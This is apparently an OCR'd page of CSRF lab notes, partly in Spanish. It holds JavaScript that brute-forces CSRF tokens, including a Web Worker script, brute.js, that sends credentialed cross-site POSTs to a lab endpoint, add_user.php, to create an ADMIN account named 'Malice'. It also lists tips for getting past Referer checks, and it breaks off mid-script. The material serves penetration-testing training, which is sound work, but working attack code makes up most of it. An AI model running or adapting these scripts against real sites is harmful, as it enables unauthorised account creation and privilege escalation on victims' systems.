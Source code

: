 ```js
  }
}


// Prepare the token list
var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
tokens = tokens.filter(Boolean); # remove empty values

bruteLoop (tokens);

</script>
</body>
</html>
```

#### Test the Referer value

* Prueba con subdominio
* Prueba en el texto del nombre del archivo
* En este caso, tenemos que cambiar el nombre del archivo al target.url
* Así que el árbitro puede reconocer como un remitente de confianza

### nivel 2 Brute forcer with Workers

brute.js

```js
self.addEventListener('message', function (e) {

   var tokens = e.data.tokens;

   function bruteLoop(TList) {
      for (var i = 0; i < TList.length; i++) {
         console.info("Testing: " + TList[i]);
         XHRPost(TList[i]);
      }

      Terminator();
   }

   function XHRPost(tVal) {
      var http = new XMLHttpRequest();
      var url = "http://{LABID}.csrf.labs/add_user.php";

      var token = tVal;

      params = {
         "name": "Malice",
         "surname": "Smith",
         "email": "malice@hacker.site",
         "role": "ADMIN",
         "submit": "",
         "CSRFToken": token,
      };

      http.open("POST", url, true);
      http.withCredentials = 'true';

      // Send the proper header information along with the request
      http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      http.onreadystatechange = function () {
         if (http.readyState > 1) { // We don't care about responses
            // console.warn("Aborted " + token + " with status " + http.readyState);
            // http.abort();
```